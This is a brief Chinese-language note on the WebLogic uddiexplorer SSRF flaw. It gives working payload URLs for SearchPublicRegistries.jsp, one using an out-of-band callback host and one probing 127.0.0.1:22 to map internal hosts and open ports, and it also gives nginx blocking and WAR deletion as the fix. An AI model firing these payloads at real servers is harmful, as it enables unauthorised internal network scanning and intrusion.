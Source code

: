 uddiexplorer漏洞

payload:<code>/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.053r5r.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search

1）访问

http://*****:7008//uddiexplorer/SearchPublicRegistries.jsp?operator=http://127.0.0.1:22&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search

通过返回值  可以确定127.0.0.1 端口 22 是否开启。从而，可以扫描内网所有ip 和 开启的端口。

2）解决方法：

     nginx 配置拦截 uddiexplorer 不让访问

     /root/Oracle/Middleware64/user_projects/domains/web/servers/AdminServer/tmp/.internal        直接删除 uddiexplorer.war 包
